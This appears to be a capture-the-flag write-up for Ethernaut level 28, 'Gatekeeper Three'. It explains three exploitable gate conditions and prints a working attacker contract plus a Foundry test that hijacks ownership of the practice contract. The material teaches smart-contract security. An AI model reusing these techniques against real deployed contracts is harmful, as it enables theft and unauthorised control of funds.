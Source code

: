 # Level 28 - Gatekeeper Three

## Objectives

- cope with gates and become an entrant.

## Contract Overview

The Solidity contract `SimpleTrick` consists of functions designed to handle password verification and trick execution. It includes `checkPassword(uint256 _password)` to verify passwords, `trickInit()` to initialize a trick, and `trickyTrick()` to execute a trick if conditions are met.

In parallel, the `GatekeeperThree` contract contains functions such as `getAllowance(uint256 _password)` to permit entrance based on password validation, `createTrick()` to instantiate a new trick, and `enter()` for gate entry. Each function has specific conditions, like ownership verification and allowance checks, enforced through modifiers.

Both contracts facilitate interactions where password authentication is crucial, enabling controlled access and trick execution based on predefined criteria. Additionally, the `GatekeeperThree` contract manages entrance permissions and trick creation, ensuring secure and controlled interactions within the system.

## Finding the weak spots - Gate One

Let's break down the `gateOne` modifier:

```solidity

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

```

This modifier ensures that only the contract owner can call the function and prohibits the contract owner from being the original sender of the transaction.

To exploit this, we can manipulate the `owner` variable by invoking the `construct0r` function, which sets `owner` to the sender's address. It is worth noting that `construct0r` is a regular function, not a constructor, so we can call it like any other function to become the owner.

The second condition, preventing the contract owner from being the original sender, can be bypassed by initiating the transaction from a smart contract rather than an externally-owned account. This is because `tx.origin` refers to the original sender of the transaction, while `msg.sender` refers to the current caller of the function.

## Finding the weak spots - Gate Two

The second gate, represented by the `gateTwo` modifier, ensures that the correct password has been provided to the `SimpleTrick` contract before allowing access:

```solidity
modifier gateTwo() {
  require(allow_entrance == true);
  _;
}
```

To enable entrance, the `getAllowance` function within the `GatekeeperThree` contract must be called with the correct password:

```solidity
function getAllowance(uint _password) public {
  if (trick.checkPassword(_password)) {
      allow_entrance = true;
  }
}
```

Inside the `SimpleTrick` contract, the `checkPassword` function verifies that the password matches the one set in the contract's storage. If the provided password matches, the function returns true; otherwise, it updates the password to the current block timestamp and returns false:

```solidity
function checkPassword(uint _password) public returns (bool) {
  if (_password == password) {
    return true;
  }
  password = block.timestamp;
  return false;
}
```

Attacker can query the password from the appropriate storage slot via `vm.load()` or just simply using `block.timestamp`.

## Finding the weak spots - Gate Three

```solidity
    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

```

We need to meet two conditions to pass `gateThree`:

- The balance of the current contract `(address(this))` needs to exceed `0.001 ether`.
- Sending `0.001 ether` to the contract `owner` (accessed via` payable(owner)`) must result in a failure.

It requires an attacker contract to achieve this by employing some mechanism, such as `revert()`, to reject any incoming ETH.

## Plan of the attack

1. Attacker creates `AttackGatekeeperThree` contract providing the address of the `GatekeeperThree` contract.
2. Attacker calls the `attack()` function in the `AttackGatekeeperThree` contract that is invoking `construct0r()` on `GatekeeperThree` contract making him the owner of the `GatekeeperThree` contract.
3. Attacker calls `createTrick()` by calling the `attack()` function to get deploy a new `SimpleTrick` contract.
4. Attacker runs the `getAllowance()` by calling the `attack()` function with the password `block.timestamp`.
5. Attacker sends `0.0011 ether` to the `GatekeeperThree` contract address by calling the `attack()` function, rejecting any incoming ETH.
6. Attacker becomes `entrant` by calling `enter` function.

## Malicious contract (AttackGatekeeperThree.sol)

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

import "./GatekeeperThree.sol";

contract AttackGatekeeperThree {
    GatekeeperThree victimContract;

    // 1. Attacker creates `AttackGatekeeperThree` contract providing the address of the `GatekeeperThree` contract.
    constructor(address _victimContract) {
        victimContract = GatekeeperThree(payable(_victimContract));
    }

    function attack() public payable {
        // 2. Attacker calls the `attack()` function in the `AttackGatekeeperThree` contract that is invoking `construct0r()` on `GatekeeperThree` contract making him the owner of the `GatekeeperThree` contract.

        victimContract.construct0r();

        // 3. Attacker calls `createTrick()` by calling the `attack()` function to get deploy a new `SimpleTrick` contract.
        victimContract.createTrick();

        // 4. Attacker runs the `getAllowance()` by calling the `attack()` function with the password
        victimContract.getAllowance(block.timestamp);

        // 5. Attacker sends `0.0011 ether` to the `GatekeeperThree` contract address by calling the `attack()` function, rejecting any incoming ETH.
        (bool sent, ) = payable(victimContract).call{value: msg.value}("");

        require(sent, "Fail to send ether");

        // 6. Attacker becomes `entrant` by calling `enter` function.
        victimContract.enter();
    }

    // 5. Attacker sends `0.0011 ether` to the `GatekeeperThree` contract address by calling the `attack()` function, rejecting any incoming ETH.
    receive() external payable {
        revert("Fail to send to this contract!");
    }
}


```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/28-GatekeeperThree.t.sol))

```solidity


        // 1. Attacker creates `AttackGatekeeperThree` contract providing the address of the `GatekeeperThree` contract.
        AttackGatekeeperThree attackGatekeeperThree = new AttackGatekeeperThree(
            address(ethernautGatekeeperThree)
        );

        emit log_named_address(
            "Address of entrant before attack: ",
            address(ethernautGatekeeperThree.entrant())
        );

        // 2. Attacker calls the `attack()` function in the `AttackGatekeeperThree` contract that is invoking `construct0r()` on `GatekeeperThree` contract making him the owner of the `GatekeeperThree` contract.
        attackGatekeeperThree.attack{value: 0.0011 ether}();

        emit log_named_address(
            "Address of entrant after attack: ",
            address(ethernautGatekeeperThree.entrant())
        );

```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/GatekeeperThree.png)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [alex0207s](https://github.com/alex0207s/ethernaut-foundry-boilerplate)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
